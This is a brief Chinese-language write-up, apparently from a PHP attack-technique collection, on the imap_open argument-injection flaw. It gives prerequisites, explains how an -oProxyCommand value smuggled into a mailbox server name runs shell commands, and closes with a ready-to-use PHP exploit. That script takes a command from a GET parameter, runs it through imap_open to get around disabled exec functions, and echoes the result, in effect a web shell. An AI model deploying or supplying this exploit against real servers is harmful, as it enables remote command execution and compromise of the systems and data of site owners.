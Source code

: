 ## ***利用 imap_open函数任意命令执行***

**1\. 前提条件**

目标开启了imap扩展，并支持imap_open()函数

**2\. 基本原理**

PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。

**3\. exp**

```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
    die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>

```

